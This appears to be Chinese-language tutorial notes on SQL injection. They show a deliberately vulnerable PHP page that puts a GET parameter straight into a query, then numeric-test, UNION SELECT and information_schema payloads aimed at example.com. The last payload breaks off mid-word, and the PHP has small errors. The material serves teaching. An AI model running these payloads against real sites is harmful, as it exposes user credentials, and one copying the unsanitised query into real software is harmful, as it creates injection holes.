 ## Sql Injection
### 1.数字型和Union注入

```
sql1.php
<?php
// connect
$conn = sql_connect("127.0.0.1", "root", "root", "test")
$res = mysqli_query($conn, "SELECT title, content FROM wp_news WHERE id=".$_GET['id']);
$row = mysqli_fetch_array($res);
echo "<center>";
echo "<h1>".$row['title']."</h1>";
echo "<br/>";
echo "<h1>".$row['content']."</h1>";
echo "</center>";
?>
```

## 1.1 注入尝试1, sql解析
`http://example.com/test.php?id=2` <br/>
`http://example.com/test.phph?id=3-1` <br/>
两者等价, 说明3-1进行了解析 <br/>
## 1.2 union联合查找
`http://example.com/test.php?id=1+union+select+user,pwd+from+wp_user+limit+1,1` <br/>
limit1,1 表示从1开始取一条

## 1.3 通用攻击,对information_schema
`http://example.com/test.php?id=1 union select 1, group_concat(table_name) from information_sche` <br/>


